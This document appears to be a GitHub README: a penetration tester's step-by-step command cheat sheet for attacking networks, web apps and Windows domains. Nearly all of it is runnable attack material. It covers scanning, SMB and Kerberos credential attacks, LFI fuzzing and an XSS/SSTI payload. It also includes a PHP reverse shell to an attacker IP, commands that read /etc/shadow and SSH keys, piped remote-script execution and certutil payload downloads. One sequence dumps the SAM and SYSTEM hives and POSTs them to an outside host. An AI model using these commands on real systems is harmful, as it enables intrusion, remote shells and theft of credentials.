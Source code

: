 
My Methodology


<details>
    <summary>Host Discovery (External)</summary>
    ━━━━━━━━━━━━━━━━━━━━━━━━━   
    ```
    fping -ag 10.10.110.0/24 2>/dev/null | tee external-ips ; \
for ip in $(cat external-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done
    ```
</details>

Host Discovery (Internal)
━━━━━━━━━━━━━━━━━━━━━━━━━
fping -ag 172.16.1.0/24 2>/dev/null | tee internal-ips ; \
for ip in $(cat internal-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done


Service Enumeration
━━━━━━━━━━━━━━━━━━━━━━━━━
nmap -Pn -sC -sV 172.16.1.10 -p22,80,139,445
ldap=$(nmap --script "ldap* and not brute" -p 389 172.16.1.10); echo "$ldap"
nxc ftp 172.16.1.10 --port 21 -u 'anonymous' -p 'anonymous' --ls
nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --rid-brute 10000
nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --shares
mysql -h 172.16.1.10 -u root@localhost -e 'show databases;'
impacket-GetNPUsers -usersfile usernames domain/ -dc-ip 172.16.1.10
impacket-GetUserSPNs -request-user "$objuser" -dc-ip 172.16.1.10 domain/username:password
impacket-GetUserSPNs -no-preauth "$user" -usersfile usernames -dc-host 172.16.1.10 domain/
impacket-GetUserSPNs -request -dc-ip 172.16.1.10 domain/username:password

for x in $(showmount -e 172.16.1.10 | awk '{print $1}' | grep -v 'Export')
    do mkdir -p "/dev/shm"/mnt"$x"
    sudo mount -t nfs 172.16.1.10:"$x" "/dev/shm"/mnt"$x" -o nolock
    tree -puga "/dev/shm"/mnt"$x"
done


Web Enumeration
━━━━━━━━━━━━━━━━━━━━━━━━━
[*] Technology Discovery
whatweb http://10.10.110.100

[*] WordPress Discovery
wpscan --url http://10.10.110.100/wordpress --enumerate

[*] Directory Discovery
ffuf -u 'http://10.10.110.100/FUZZ' -t 400 -rate 10000 -e .php -v -recursion -mc 200,301 \
-w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
2>/dev/null | grep -oP '(http.*)(?<!/)$'

[*] Directory Traversal
ffuf -u 'http://10.10.110.100/nav.php?page=FUZZ' -t 400 -rate 10000 -v -mc 200 \
-w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt \
2>/dev/null | grep -oP '(http.*)(?<!/)$'

[*] XSS + SSTI
<img src=x>'"${{7*7}}

[*] Subdomain Discovery
gobuster vhost --append-domain -u example.com -k -r -t200 -q \
-w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt \
| grep -oP '(?<=Found: )[^ ]+'


Exploitation
━━━━━━━━━━━━━━━━━━━━━━━━━
[*] Reverse Shells
<?php
$lhost = "10.10.16.3";
$lport = 4444;

exec("bash -c 'bash -i >& /dev/tcp/$lhost/$lport 0>&1'");
$sock = fsockopen($lhost, $lport);
if ($sock) {
    exec("sh <&3 >&3 2>&3");
}
?>

[*] Upgrade TTY
python3 -c 'import pty; pty.spawn("/bin/bash")';
CTRL-Z
stty size;stty raw -echo;fg
export SHELL=bash;
export TERM=xterm-256color;
stty rows <num> columns <num>
reset


Post Exploitation
━━━━━━━━━━━━━━━━━━━━━━━━━
[*] Linux
ssh user@xxxxxxxxx -i id_rsa -L 33060:localhost:33060
netstat -tuln
ls -la /opt
sudo -l
find / -perm /4000 2>/dev/null
grep -r -E 'conf' /var/www
cat ~/.ssh/id_rsa
cat /etc/shadow
curl xxxxxxxxxx:8088/linpeas.sh | bash
GTFO bins

[*] Windows
evil-winrm -i xxxxxxxxxx -u 'username' -p 'password'
evil-winrm -i xxxxxxxxxx -u 'username' -H 'hash'
cd C:\users
tree /f
powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/winpeas.exe C:\programdata\winpeas.exe"
powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/nc.exe C:\programdata\nc.exe"

click.url
[InternetShortcut]
URL=C:\programdata\shell.bat

meterpreter > use priv
meterpreter > getsystem

nxc winrm xxxxxxxxxx -u 'username' -p 'password' -x \
'
powershell -c rm *.SAV
powershell -c reg save HKLM\SYSTEM SYSTEM.SAV
powershell -c reg save HKLM\SAM SAM.SAV
powershell -c compress-archive *.SAV SAM.zip
powershell -c dir
iwr http://xxxxxxxxxx:xxxx -Method POST -InFile SAM.zip
'; unzip -o SAM.zip; \
impacket-secretsdump LOCAL -sam SAM.SAV -system SYSTEM.SAV

powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/powerview.ps1 C:\programdata\powerview.ps1"
powershell Import-Module C:\programdata\powerview.ps1
Get-NetDomain
Get-LocalUser
Set-DomainObject -Identity USERNAME -SET @{serviceprincipalname='SET/SET'}; Get-DomainSPNTicket -spn SET/SET
bloodhound-python -c all -u 'username' -p 'password' -d "$domain" -dc "$dc" -ns "$target"
bloodhound-python -c default -u 'username' -p 'password' -d "$domain" -dc "$dc" -ns "$target"

